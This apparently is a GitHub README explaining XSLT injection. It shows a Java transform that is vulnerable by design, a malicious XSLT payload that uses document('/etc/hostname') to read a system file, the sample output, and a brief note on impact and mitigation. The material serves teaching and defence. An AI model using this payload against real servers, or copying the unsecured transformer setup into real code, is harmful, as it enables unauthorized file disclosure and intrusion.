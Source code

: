 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xslt-injection/main/xslt-injection.png"></p>

A threat actor may interfere with an application's processing of extensible stylesheet language transformations (XSLT) for extensible markup language (XML) to read or modify data on the target

## Example #1
1. Threat actor submits a malicious request to a target that has a vulnerable XSLT processor
2. The target's XSLT processor parses the malicious file (Based on the processor and the version of the XSLT specification)

## Code
#### Target Logic
```
...
Result result = new StreamResult(System.out);
Source xslt = new StreamSource(new File("test.xslt"));
Source xml = new StreamSource(new File("test.xml"));
TransformerFactory factory = TransformerFactory.newInstance();
Transformer transformer = factory.newTransformer(xslt);
transformer.transform(xml, result);
...
```

#### Target-in
```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xs>
  <xsl:template match="/">
    <xsl:copy-of select=" document('/etc/hostname')"/>
  </xsl:template>
</xsl:stylesheet>
```

#### Target-Out
```
...
...
usystem01
```

## Impact
High

## Names
- XSLT Injection

## Risk
- Read & Write data
- Command Execution

## Redemption
- Secure processing

## ID
012e4a7b-b8ae-44a6-9b6f-08d24cf7dba2

## References
- [acunetix](https://www.acunetix.com/vulnerabilities/web/xslt-injection)
